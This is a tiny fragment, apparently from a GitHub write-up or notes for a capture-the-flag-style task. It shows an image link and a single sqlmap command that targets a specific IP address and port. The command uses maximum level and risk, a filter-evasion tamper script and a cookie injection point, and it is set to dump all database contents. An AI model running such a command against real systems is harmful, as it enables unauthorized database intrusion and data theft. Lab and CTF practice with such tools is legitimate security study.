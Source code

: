 
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/541b218d-898c-460f-9c6d-9f2410b69b00)
```
sqlmap -u "http://62.173.140.174:28480/" --batch --level=5 --risk=3 --random-agent -v --tamper=space2comment --all --cookie=lang=*
```

